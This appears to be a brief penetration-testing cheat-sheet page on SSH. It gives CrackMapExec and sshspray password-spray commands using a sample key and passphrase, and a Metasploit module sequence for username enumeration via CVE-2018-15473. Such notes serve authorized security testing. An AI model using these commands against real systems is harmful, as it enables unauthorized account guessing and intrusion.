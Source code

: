 ```yaml
---
description: Secure Shell
---
```


# SSH




## Password Spray

- [https://github.com/mcorybillington/sshspray](https://github.com/mcorybillington/sshspray)

Password spray with a private key and passphrase `Passw0rd!` using CME:

```
$ cme ssh 192.168.1.11 -u snovvcrash -p 'Passw0rd!' --key-file id_rsa
```

Using sshspray:

```
$ python3 sshspray.py -u snovvcrash -i ~/.ssh/id_rsa -t ssh.txt
```




## Enum Users

**CVE-2018-15473**

```
msf > use auxiliary/scanner/ssh/ssh_enumusers
msf > set CHECK_FALSE true
msf > set RHOSTS file:ssh.txt
msf > set THREADS 25
msf > set USERNAME root
msf > run
```
